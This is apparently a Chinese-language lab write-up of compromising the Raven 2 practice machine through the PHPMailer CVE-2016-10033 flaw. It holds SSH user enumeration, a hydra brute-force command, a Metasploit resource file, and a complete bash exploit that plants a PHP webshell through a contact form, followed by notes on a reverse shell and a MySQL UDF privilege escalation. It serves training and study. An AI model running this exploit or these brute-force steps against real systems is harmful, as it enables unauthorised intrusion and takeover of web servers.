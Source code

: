 ```yaml
---
title: raven2（CVE-2016-10033）
categories:
- training
tags:
- training
- linux os
- cms
---
```

```
22/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
80/tcp  open  http    Apache httpd 2.4.10 ((Debian))
111/tcp open  rpcbind 2-4 (RPC #100000)
```
## try1-ssh用户枚举
```
python ssh.py --userList /usr/share/wordlists/linux-user.txt --outputFile out.txt 192.168.2.133
cat out.txt | grep -v 'not' > name.txt
awk '{print $1}' name.txt > user.txt
```
获得的用户：
```
michael
steven
......
```
`hydra -L user.txt -P /usr/share/wordlists/rockyou.txt -I 192.168.2.133 ssh`

我猜弱口令应该已经修补了。但是还是得试一试，==，万一又有，我又没发现这么低级的漏洞，岂不是很没有面子。

## try2-web enum

方法：
`wpscan --url "http://192.168.2.133/wordpress/" --wp-content-dir "/wordpress" --enumerate u --enumerate p`

信息：
```
WordPress 4.8.7
Apache/2.4.10 (Debian)

后台：http://raven.local/wordpress/wp-login.php

192.168.2.133/vendor/changelog.md
PHPMailer 6.0
Version 5.2.17 (December 9th 2016)
```
```
searchsploit PHPMailer

PHPMailer < 5.2.20 with Exim MTA - Remote Code Execution                                                    | exploits/php/webapps/42221.py
```
searchsploit -m exploits/php/webapps/42221.py
```
  Exploit: PHPMailer < 5.2.20 with Exim MTA - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/42221/
     Path: /usr/share/exploitdb/exploits/php/webapps/42221.py
File Type: Python script, ASCII text executable, with CRLF line terminators

Copied to: /root/42221.py
```
see /root/42221.py
mv /root/42221.py rce_phpmailer_exim4.py
python rce_phpmailer_exim4.py -url http://192.168.2.133/ -cf contact.php -ip 192.168.2.133 
![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-01/1.PNG)

--- 
时隔2个月，继续这个靶机的练习
192.168.241.128

command:
```
echo 192.168.241.128 raven.local >> /etc/hosts
wpscan --url "http://192.168.241.128/wordpress/" --wp-content-dir "/wordpress" --enumerate

```
## 存在的目录：
http://raven.local/vendor/changelog.md
http://raven.local/manual/en/index.html apache的目录

---

wordpress 4.8.7漏洞资料 
https://www.cvedetails.com/vulnerability-list/vendor_id-2337/product_id-4096/version_id-224338/Wordpress-Wordpress-4.8.html

CVE-2018-20148：PHP Object Injection via Meta Data

---

## info:
http://192.168.241.128/wordpress/?attachment_id=11
wpscan扫描了这个目录，获得flag3

http://raven.local/vendor/PATH
发现目录遍历，获得flag1

## 思路
无弱密码；有0day漏洞，但没有exp；无脆弱的wordpress插件

查看wp后，就是自己没有发现目录遍历漏洞=。=

http://raven.local/vendor/security.md 暗示了phpmailer插件版本漏洞

```
touch test.rc

use exploit/multi/http/phpmailer_arg_injection
set RHOST 192.168.241.128
set TARGETURI /contact.php
set WEB_ROOT /var/www/html/
run

msfconsole -r test.rc
反弹shell失败。。。
```
## exp.sh
```
#!/bin/bash

TARGET=http://raven.local/contact.php

DOCROOT=/var/www/html
FILENAME=backdoor.php
LOCATION=$DOCROOT/$FILENAME

STATUS=$(curl -s \
              --data-urlencode "name=Hackerman" \
              --data-urlencode "email=\"hackerman\\\" -oQ/tmp -X$LOCATION blah\"@badguy.com" \
              --data-urlencode "message=<?php echo shell_exec(\$_GET['cmd']); ?>" \
              --data-urlencode "action=submit" \
              $TARGET | sed -r '146!d')

if grep 'instantiate' &>/dev/null <<<"$STATUS"; then
  echo "[+] Check ${LOCATION}?cmd=[shell command, e.g. id]"
else
  echo "[!] Exploit failed"
fi
```
运行以上exp，成功获得一个webshell，权限为www-data

![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-01/2.PNG)

接下来用php反弹shell，如同[这篇文章](https://whale3070.github.io/training/2018/11/10/x/)

python -c 'import pty; pty.spawn("/bin/bash")'

![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-01/3.PNG)

之后，web目录泄露mysql密码，得到mysql普通权限。
然后上传udf源代码，执行安装，就可以使用do_system()函数，以root权限执行命令。
https://whale3070.github.io/training/2018/12/11/x/

## 总结
之前用searchsploit 找到了关于phpmailer的exp，php、bash、python的exp，都执行失败了。

看到过一个问题，**web渗透该如何继续提升？**除非遇到一样的web站点，该搞不下来的网站，还是搞不下来。

我认为应该用代码能力，写工具，尽可能扩大目标攻击面（只有知道，才能看到弱点），然后精力放在漏洞挖掘上。

而不是脚本小子运用已知exp对漏洞进行利用。

就好像我知道锁A、B、C，我有钥匙a，刚好Aa能配上，我就能进入系统。

经过验证，搞不下来的站点，除非有0day漏洞，那就证明了该站点很安全。

继续提升代码能力以及漏洞挖掘能力吧...
